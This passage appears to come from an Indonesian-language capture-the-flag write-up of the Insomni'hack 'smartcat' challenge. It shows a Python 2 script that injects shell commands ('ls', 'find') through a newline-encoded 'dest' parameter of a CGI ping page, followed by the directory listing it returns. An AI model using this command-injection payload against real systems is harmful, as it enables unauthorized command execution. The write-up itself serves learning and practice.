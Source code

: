 Ternyata trik tersebut berhasil dan ditemukan file - file berikut ini.
<pre>
index.cgi
there
</pre>

'there' nampaknya cukup menarik, saya belum mengetahui persis apakah itu sebuah file atau direktori. Maka dari itu, saya menambahkan method untuk menjalankan command 'find' di python yang fungsinya untuk melihat bagian / sub bagian didalam working directory.


```python
import urllib2
import re

class Exploit:
    def __init__(self):
        self.exploit = ""

    def find_flag_stage1(self):
        self.exploit = "127.0.0.1%0Als"
        return self.exploit

	def find_flag_stage2(self):
        self.exploit = "127.0.0.1%0Afind"
        return self.exploit

class RunExploit:
    def __init__(self):
        self.url = "http://smartcat.insomnihack.ch/cgi-bin/index.cgi?dest=%s"

    def execute(self, params):
        url =  self.url % (params)
        read_url = urllib2.urlopen(url).read()
        if "INS{" in read_url:
            filtered = re.findall(r'INS{(.*)}', read_url)
            print filtered
        else: print read_url

def main():
    exploit = Exploit()
    deploy = exploit.find_flag_stage2()
    run = RunExploit().execute(deploy)

if __name__ == '__main__':
    main()
```

Dan berikut hasilnya.

```bash
./index.cgi
./there
./there/is
./there/is/your
./there/is/your/flag
./there/is/your/flag/or
./there/is/your/flag/or/maybe
./there/is/your/flag/or/maybe/not
./there/is/your/flag/or/maybe/not/what
./there/is/your/flag/or/maybe/not/what/do
./there/is/your/flag/or/maybe/not/what/do/you
./there/is/your/flag/or/maybe/not/what/do/you/think
./there/is/your/flag/or/maybe/not/what/do/you/think/really
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell
```